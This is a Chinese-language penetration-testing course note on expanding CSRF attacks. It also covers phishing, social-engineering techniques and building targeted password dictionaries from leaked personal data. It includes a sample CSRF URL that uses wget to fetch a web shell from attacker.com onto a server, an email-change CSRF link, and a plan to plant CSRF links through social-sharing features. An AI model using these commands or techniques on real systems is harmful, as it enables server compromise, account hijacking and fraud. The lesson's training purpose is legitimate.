

# 网络安全就业推荐 - 课程27：第25天：CSRF漏洞扩大影响 🎯

在本节课中，我们将要学习CSRF漏洞的进阶利用方式，并引入社会工程学的基本概念，以理解如何将技术漏洞与心理战术结合，从而扩大攻击的影响范围。

---

## 社会工程学简介 🎭

上一节我们介绍了CSRF漏洞的基本利用。本节中我们来看看如何通过社会工程学来辅助攻击。

社会工程学的核心是通过合法的交流影响他人心理，使其做出特定动作或透露机密信息。这通常被视为一种欺诈行为，目的是收集信息或入侵计算机系统。简单来说，就是进行欺骗。

以下是社会工程学的一些常见例子：

*   **经典诈骗案例**：例如2016年的知名诈骗案。攻击者通过入侵招生信息平台获取了大量个人信息，利用这些详细信息使受害者相信其身份，从而成功实施诈骗。这提醒我们提升自身安全意识的重要性。
*   **钓鱼邮件**：这是目前渗透测试中最有效的攻击方式之一。攻击者伪装成可信来源（如公司IT部门），发送包含恶意链接（如CSRF攻击页面）的邮件，诱使收件人点击。
*   **钓鱼页面**：攻击者利用可信域名（如腾讯问卷）创建虚假的钓鱼页面。由于域名本身可信，受害者更容易放松警惕，从而提交敏感信息。

社会工程学在渗透测试中的一个重要作用是**信息收集**。通过伪装、沟通等手段，可以获取目标系统的相关信息，为后续的技术攻击铺平道路。

---

## 信息收集与密码生成 🔍

在信息收集中，获取目标的个人信息（如QQ号、邮箱）后，可以利用这些信息生成潜在的密码字典。

以下是利用已知信息生成密码字典的思路：


*   通过目标QQ号，在社工库中查询其历史密码、关联的群组关系等信息。
*   利用工具或网站（如ig007）查询该手机号或邮箱注册过的平台。
*   结合获取的常用密码、个人信息（生日、用户名等），使用工具生成针对性的密码字典。例如，使用GitHub上的社工字典生成脚本，输入已知信息，可以生成大量可能的密码组合。

**代码示例（概念性）**：
```python
# 这是一个简化的密码生成逻辑示例
username = "target_user"
birth_year = "1990"
common_words = ["password", "123456", "qwerty"]

generated_passwords = []
for word in common_words:
    generated_passwords.append(username + word)
    generated_passwords.append(word + birth_year)
# 可以生成更多组合...
```


---

## CSRF漏洞的扩大利用 💥

我们了解了社会工程学后，现在回到CSRF漏洞本身，探讨如何扩大其影响。

首先需要明确一个关键点：如果一个网站存在CSRF漏洞，通常整个站点都会受到影响。修复时也是全局修复。因此，在利用CSRF时，应尽量针对敏感操作。

以下是扩大CSRF影响的思路：

1.  **针对敏感操作**：不要满足于简单的添加或修改操作。应寻找如**删除账号**、**更换绑定手机号**、**修改密码**、**转账**等敏感功能点进行利用。
2.  **组合漏洞利用**：CSRF可以与其他漏洞结合，产生更严重的后果。例如，后台的CSRF漏洞可能用于执行系统命令，从而**获取服务器权限（Get Shell）**。
    *   **示例**：在某个CMS后台，存在一个通过请求参数执行命令的功能。攻击者可以构造一个恶意URL，诱使已登录的管理员访问，从而在服务器上执行任意命令。
    *   **构造的恶意URL可能类似**：`http://target.com/admin/command.php?cmd=wget+http://attacker.com/shell.php+-O+/var/www/html/shell.php`
3.  **漏洞奖金最大化**：在漏洞挖掘和报告时，深入利用漏洞链可以获得更高的奖励。例如，一个单独的XSS漏洞可能奖励300元，一个单独的CSRF漏洞奖励50元。但如果将两者结合，实现自动触发的账户劫持，奖励可能跃升至5000元。这体现了深入利用漏洞的价值。

---

## 实战思路：结合分享功能进行CSRF攻击 🎣

让我们看一个结合社交平台分享功能进行CSRF攻击的潜在思路。

许多网站（如视频站、新闻站）都有“分享到QQ空间/微博”的功能。在分享过程中，浏览器会向社交平台发送一个请求，其中包含被分享页面的**标题、描述和链接（URL）**。

**攻击思路**：
1.  攻击者找到一个存在CSRF漏洞的敏感功能点（例如`http://vuln-site.com/change_email.php?new_email=attacker@evil.com`）。
2.  攻击者准备一个吸引人的图片或标题，并利用社交平台的分享功能。
3.  在抓取分享请求的数据包时，尝试修改其中的`link`（链接）参数，将其替换为上述构造好的CSRF攻击URL。
4.  如果社交平台没有对分享的链接进行严格校验，那么当受害者在社交平台看到这条分享并点击时，如果其浏览器恰好已登录目标网站（`vuln-site.com`），就会自动执行修改邮箱的操作。

**关键点**：这种攻击利用了用户对社交平台内容的信任，以及浏览器会自动携带Cookie发起请求的机制。

---

## 总结 📚

本节课中我们一起学习了以下内容：

1.  **社会工程学**：一种通过心理操纵获取信息或访问权限的非技术手段，常与技术漏洞结合使用。
2.  **信息收集与密码生成**：如何利用社工库和已知信息，生成针对性密码字典，为后续攻击做准备。
3.  **CSRF漏洞的扩大利用**：强调了应针对敏感操作进行利用，并展示了如何通过**组合漏洞**（如CSRF+命令执行）实现更严重的攻击效果（如Get Shell）。
4.  **实战思路**：探讨了结合社交平台分享功能，诱使用户触发CSRF攻击的潜在方法。



核心要点是：在网络安全测试中，发现一个基础漏洞（如CSRF）只是开始。更重要的是思考如何**深入利用**、**扩大影响**以及如何与其他漏洞或技术（如社会工程学）**组合利用**，这不仅能提升技术水平，在实际的漏洞挖掘中也往往能获得更高的评价与回报。请始终牢记，学习这些知识是为了提升防御能力，所有测试应在合法授权范围内进行。